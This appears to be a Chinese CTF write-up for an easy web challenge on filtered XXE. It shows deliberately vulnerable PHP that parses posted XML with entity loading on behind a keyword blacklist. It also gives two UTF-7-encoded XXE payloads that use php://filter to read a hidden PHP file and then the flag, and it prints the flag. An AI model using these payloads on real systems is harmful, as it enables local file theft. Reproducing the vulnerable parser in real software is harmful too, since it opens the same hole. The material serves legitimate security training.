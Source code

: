 * 题目名称： baby_XML_revenge
* 题目类型： WEB
* 题目难度： 简单
* 出题人： S1mh0
* 考点：有过滤的XXE
* 描述：可扩展标记语言就是最牛逼的！漏洞？没有的事！（下调了难度不会还做不出来吧，杂鱼~杂鱼~）
* flag：XSCTF{n0body_Kn0w_Xxe_b3tter_th4n_Me}
* Writeup：

源码

```php
<!doctype html>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8" /><!-- zaku~zaku~zaku~zaku~zaku~zaku~zaku~zaku~zaku~zaku~ seCr3t.php -->
    </head>
    <body>
        <img src="./images/people.jpg" class="bg" width="20%" height="auto">
    </body>
    <!-- did u find the location of flag again? -->
</html>
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
   if(empty($xmlfile))
    {
        echo "need xmlfile to post";
    }
    else
    {
        if (preg_match('/\<\!DOCTYPE/is', $xmlfile))
        {
            die('<!DOCTYPE is detected, hacker!');
        }
        if (preg_match('/\<\!ENTITY/is', $xmlfile))
        {
            die('<!ENTITY is detected, hacker!');
        }
        if (preg_match('/index|expect|glob|phar|host|decode|conf|\%/is',$xmlfile))
        {
            die("bad word!");
        }
    }
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
考虑到新手赛可能选手没有想到UTF-7或者UTF-16编码转换进行绕过，对过滤的提示设置的更加明显，并减少了黑名单关键词，可以使用php伪协议读

由于flag文件和seCr3t.php都是被`<>`包含住的，因此需要通过CDATA 配合外部DTD文档引入来读取，或者直接通过php伪协议读取，因此做题思路是：

1、首先查看首页源代码发现seCr3t.php，利用编码绕过，直接通过php伪协议读取

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE a +AFs							  
	+ADwAIQ-ENTITY b SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-file:///var/www/html/seCr3t.php+ACI +AD4
+AF0APg
+ADw-x+AD4AJg-b+ADsAPA-/x+AD4-
```

![image-20241128165455603](README.assets/image-20241128165455603.png)

得到flag路径

```php
<?php
$flag_path = "FLAGflag114514";
?>
```



2、继续使用php伪协议直接读取flag

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE a +AFs							  
	+ADwAIQ-ENTITY b SYSTEM +ACI-php://filter/read+AD0-convert.base64-encode/resource+AD0-file:///FLAGflag114514+ACI +AD4
+AF0APg
+ADw-x+AD4AJg-b+ADsAPA-/x+AD4-
```

![image-20241128165610195](README.assets/image-20241128165610195.png)

```
XSCTF{n0body_Kn0w_Xxe_b3tter_th4n_Me}
```

